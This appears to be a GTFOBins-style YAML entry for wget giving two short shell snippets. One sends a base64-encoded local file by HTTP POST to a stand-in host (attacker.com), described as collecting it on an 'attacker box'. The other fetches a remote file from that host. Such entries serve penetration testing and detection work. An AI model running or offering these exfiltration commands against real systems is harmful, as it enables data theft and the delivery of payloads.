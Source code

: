 ```yaml
---
functions:
  upload:
  - description: Send base64-encoded local file via "d" parameter of a HTTP POST request.
      Run an HTTP service on the attacker box to collect the file.
    code: |
      export URL=http://attacker.com/
      export LFILE=file_to_send
      wget --post-data="d=$(base64 $LFILE | tr -d '\n')" $URL
  download:
  - description: Fetch a remote file via HTTP GET request.
    code: |
      export URL=http://attacker.com/file_to_get
      export LFILE=file_to_save
      wget $URL -O $LFILE
---
```

